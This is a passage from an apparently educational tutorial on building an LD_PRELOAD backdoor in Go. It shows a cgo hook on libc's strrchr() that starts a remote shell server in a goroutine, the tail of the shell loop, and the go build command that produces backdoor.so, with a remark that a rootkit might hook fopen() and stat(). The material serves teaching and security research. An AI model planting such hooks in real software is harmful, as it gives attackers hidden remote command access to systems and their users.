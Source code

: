 ```go

                conn.Write(output)
        }

        conn.Close()
}
```

[`net/textproto`]: https://golang.org/pkg/net/textproto/

## Starting the remote shell when the libc function is called

Let's try starting the remote shell whenever our target application
tries to invoke a given libc function.

We're going to start the remote shell server in a goroutine, so it can
continue working in the background while we invoke the origin libc
function being called.

In this example, I'm hooking into the `strrchr()` libc function, simply
because it's used early on by top and it has a simple function signature
that's easy to implement in cgo. If this were a rootkit, you might be
hooking `fopen()` and `stat()`, but for our example, `strrchr()` will
suffice:

```go
//export strrchr
func strrchr(s *C.char, c C.int) *C.char {
        // Start remote shell
        go backdoor()

        lib, err := dl.Open("libc", 0)
        if err != nil {
                log.Fatalln(err)
        }
        defer lib.Close()

        var old_strrchr func(s *C.char, c C.int) *C.char
        lib.Sym("strrchr", &old_strrchr)

        // Call original libc functional and return its return value
        return old_strrchr(s, c)
}
```

## Testing it out

To compile the shared C library, use `go build` with the `-buildmode`
flag:

```
go build -buildmode=c-shared -o backdoor.so main.go
```


[BSides Manchester]: http://www.bsidesmcr.org.uk/
[Alastair O'Neill]: https://twitter.com/_ta0
[rootkits]: https://en.wikipedia.org/wiki/Rootkit
[rootkit]: https://en.wikipedia.org/wiki/Rootkit
[link to dynamically]: https://en.wikipedia.org/wiki/Dynamic_linker
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[PAM]: https://en.wikipedia.org/wiki/Pluggable_authentication_module
[Azazel]: https://github.com/chokepoint/azazel
[fopen]: http://www.gnu.org/software/libc/manual/html_node/Opening-Streams.html
[usefully be used]: https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
[new execution modes]: https://docs.google.com/document/d/1nr-TQHw_er6GOQRsF6T43GGhFDelrAP0NqSS_00RgZQ/edit?pli=1#heading=h.44n2lm20ate5
[shared object file]: http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html
[cgo]: https://golang.org/cmd/cgo/
[Go blog article]: http://blog.golang.org/c-go-cgo
[dynamic library loader for Go]: https://github.com/rainycape/dl
[example code]: https://github.com/mattbostock/go-ldpreload-backdoor
